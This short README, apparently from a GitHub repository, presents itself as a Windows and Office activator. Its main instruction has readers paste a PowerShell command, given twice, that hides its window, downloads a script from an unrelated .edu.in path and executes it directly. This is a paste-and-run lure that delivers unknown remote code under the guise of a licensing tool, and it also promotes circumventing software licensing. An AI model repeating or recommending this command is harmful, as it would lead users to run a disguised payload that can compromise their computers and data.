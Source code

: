 # Windows-Activator-WIN-10-WIN-11-AND-LATER
Activate your windows with PowerShell-command

1.   Press WIN + R
2.   Copy and paste the code below and press enter  
```
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke(); 
```
Alternatively, you can use the following (It will be deprecated in the future.)  
```
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke(); 
```
3.   You will see the activation options. Choose (1) HWID for Windows activation. Choose (2) Ohook for Office activation.
4.   That's all.

---
